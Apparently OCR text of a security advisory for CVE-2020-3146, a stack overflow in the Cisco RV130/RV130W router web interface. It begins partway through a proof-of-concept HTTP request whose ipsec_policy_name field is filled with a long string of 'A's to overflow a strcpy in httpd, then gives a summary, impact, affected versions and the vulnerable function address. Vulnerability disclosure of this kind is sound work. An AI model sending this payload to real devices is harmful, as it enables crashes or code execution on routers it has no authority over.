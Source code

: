 ```
=&ike_selidx=&next_page=vpn_adv&ipsec_policy_name=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ipsec_policy_type=0&ipsec_en
dpoint_type=0&ipsec_endpoint_value=1.1.1.1&ipsec_local_type=0&ipsec_local_start=1.1.1.1&
ipsec_local_subnet=255.255.255.255&ipsec_remote_type=0&ipsec_remote_start=1.1.1.1&ipsec_
remote_subnet=255.255.255.255&start_auto=&ipsec_sa_lifetime=3600&auto_ipsec_enc=aes128&a
uto_ipsec_int=sha1&ipsec_ike_policy_name=1&end_auto=&webpage_end=
```

### CVE-2020-3146 - Cisco RV130/RV130W Routers Management Interface Remote Command Execution (PPP)

#### Summary

A vulnerability in the web-based management interface of the Cisco RV130W Wireless-N Multifunction VPN
Router could allow an authenticated, remote attacker to execute arbitrary code on an affected device.

#### Impact

A successful exploit could allow the attacker to execute arbitrary code on the underlying operating system of
the affected device as a high-privilege user.

#### Affected Systems

- RV130 Multifunction VPN Router up to version 1.0.3.51 included
- RV130W Wireless-N Multifunction VPN Router up to version 1.0.3.51 included

#### Description

The vulnerability is due to improper validation of user-supplied data in the web-based management interface.

An attacker could exploit this vulnerability by sending malicious HTTP requests to a targeted device.

We identified a dangerous call to strcpy in the function at 0x0006e994 in the httpd binary (/usr/sbin/httpd in
firmware rootfs).
